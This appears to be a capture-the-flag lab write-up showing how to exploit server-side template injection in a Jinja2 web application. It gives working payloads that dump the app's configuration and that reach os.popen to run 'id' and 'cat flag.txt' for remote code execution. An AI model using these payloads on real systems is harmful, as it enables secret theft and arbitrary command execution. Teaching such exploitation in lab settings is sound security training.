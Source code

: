 # Exploiting SSTI - Jinja2

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise we are already assuming that the web application uses `Jinja` template engine.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets first try to obtain the web application configuration with the following payload:

```jinja2
{{ config.items() }}
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The payload worked perfectly. As we can see, we managed to get the web application configuration. Now lets try to do a Remote Code Execution (RCE)  with this payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!&#x20;

After a few tries we would eventually end with the following payload to retrieve our flag:

{% code overflow="wrap" %}
```django
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found the flag!
